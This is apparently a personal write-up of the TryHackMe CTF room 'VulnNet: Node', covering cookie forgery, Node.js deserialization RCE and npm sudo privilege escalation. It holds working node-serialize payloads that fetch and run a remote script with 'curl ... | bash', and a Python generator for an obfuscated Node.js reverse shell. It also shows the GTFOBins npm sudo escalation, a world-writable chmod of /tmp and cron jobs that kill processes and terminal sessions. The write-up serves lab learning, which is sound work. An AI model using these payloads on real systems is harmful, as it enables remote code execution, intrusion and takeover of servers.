 
# VulnNet-Node Helped-through

Name:  VulnNet: Node
Date:  28/1/2023
Difficulty: Easy 
Description:  After the previous breach, VulnNet Entertainment states it won't happen again. Can you prove they're wrong?
Better Description: [JAVASCRIPT](https://www.youtube.com/watch?v=Uo3cL4nrGOk)
Goals: 
- General learn machine for JS "experience" with Javascript; jwt abusing; node related madness
- Finish my other machines while this goes on
- Go the extra mile on the reverse shell
Learnt: 
- JAVASCRIPT; service file configuration; Echo > editor
Beyond Root
- Test and research more booby traps 

![1080](rootwebpagedisclosurewazu.png)


## From Sometime ago...now in 2023 

I did do some of this machine up to user.txt it just never got finished and I need to finish this week beyond roots that got left behind before finishing XCT's [[Attended-Helped-Through]] this evening and hopeful doing maybe another HTB machine. [Alh4zr3d](https://www.youtube.com/watch?v=L_9UsWabfL4)'s Funday Sunday stream are very slow comparitive to the Thursday streams and therefore useful to finish the ever increasing list of Beyond Root stuff piling up. This wil be twinned with [[Hacker-vs-Hacker-Helped-Through]]

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128. 
![](ping.png)

```
Tilo Mitra
Eric Ferraiuolo
Reid Burke
Andrew Wooldridge
```

![](thecookie.png)
I have developed alot in a year - if we could session hijack.
```bash
echo "eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==" | base64 -d | sed 's/Guest/Admin/g' | base64 | sed 's/=/%3d/g'
```
Instead we are admin of nothing:
![1080](adminofnothing.png)

- Deserialize 
	- What serialization functions and libraries are in use?
	- Error on an invalid serialized object? - Send

![1080](errorsarehalfacookieworthofenumeration.png)
My original:
```json
{"username":"_$$ND_FUNC$$_require('child_process').exec('curl 10.8.73.218/shell.sh | bash', function(error, stdout, stderr) { console.log(stdout) })","isGuest":true,"encoding": "utf-8"}
```

Was missing from `_function` - but I also dont want npm - [From](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
```json
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.11.3.193/rshell.sh | bash', function(error, stdout, stderr) { console.log(stdout)});}()","isGuest":false,"encoding": "utf-8"}
’
```
I used curl to be cool, the reason it did not work the first time is the the port 80 on the Attackbox is in use. I Encoded in base64 with BurpSuite. Also I did not escape quotes 

```bash
curl -b 'InsidXNlcm5hbWUiOiJfJCRORF9GVU5DJCRfcmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ2N1cmwgaHR0cDovLzEwLjExLjMuMTkzL3NoZWxsLnNoIHwgYmFzaCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pIiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifSI%3D' http://10.10.204.7:8080
```

Al inform the stream that the main issue is that this not signed and the serialization is not checking the type of data.

![](chatgptasatranslator.png)

Enjoy the python3 version by ChatGPT
```python
import sys

# Uopdated original from https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py
# With the help of ChatGPT

if len(sys.argv) != 3:
    print("Usage: %s <LHOST> <LPORT>" % (sys.argv[0]))
    sys.exit(0)

IP_ADDR = sys.argv[1]
PORT = sys.argv[2]


def charencode(string):
    """String.CharCode"""
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

print("[+] LHOST = %s" % (IP_ADDR))
print("[+] LPORT = %s" % (PORT))
NODEJS_REV_SHELL = '''
var net = require('net');
var spawn = require('child_process').spawn;
HOST="%s";
PORT="%s";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
''' % (IP_ADDR, PORT)
print("[+] Encoding")
PAYLOAD = charencode(NODEJS_REV_SHELL)
print("eval(String.fromCharCode(%s))" % (PAYLOAD))
```

I used both Al's, the [ocortesl](https://ocortesl.github.io/thm-writeu), without need to get the npm package: 
- Pararenthesis! 
- `\t` and `\n` helped me but not al. 
```json
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.11.3.193/rshell.sh | bash', function(error, stdout, stderr) { console.log(stdout)});}()","isGuest":false,"encoding": "utf-8"}
```

I was really set on the making the original attempt work:
![](rshell.png)

## PrivEsc

NPM!
![](Irecentlydidthis.png)
Weirdness on the box
![](homedirforwwweirdness.png)


NPM without password on sudo can do this: [GTOFbins](https://gtfobins.github.io/gtfobins/npm/#sudo)
```bash
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i
```
Permission denied
![](permissiondenied.png)

Chmod granted - Idiomentary helps
```bash
chmod -R 777 /tmp 2>/dev/null
```

![](serv.png)

More sudo no passwording
![](moresudo.png)

The shell is weird as we have a tty inside of a tty.
```bash
find / -type f -name vulnnet-auto.timer 2>/dev/null
/etc/systemd/system/vulnnet-auto.timer
# find the job in the service above
find / -type f -name vulnnet-job.service 2>/dev/null
/etc/systemd/system/vulnnet-job.service
```

I botch the shell restart brain and box - Plus I need to time to think up all the mad linux battlegrounds trick I can think of.
https://tryhackme.com/room/vulnnetnode
https://www.youtube.com/watch?v=L_9UsWabfL4

## Beyond Root


```bash
mount -o remount,noexec,rw,nosuid,relatime /dev/shm
```

Remove the webshells and its process Holo or a HTB ctf did this but did not kill the process.
```bash
* * * * * * root /bin/sleep 10 && for f in `/bin/ls /var/www/html | grep -v .html`; do p=$(ps -aux | grep $f | awk '{print $2}') && kill $p && rm /var/www/html/$f; done
```

Kill ptys
```bash
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill -9 -t pts/$f; done
```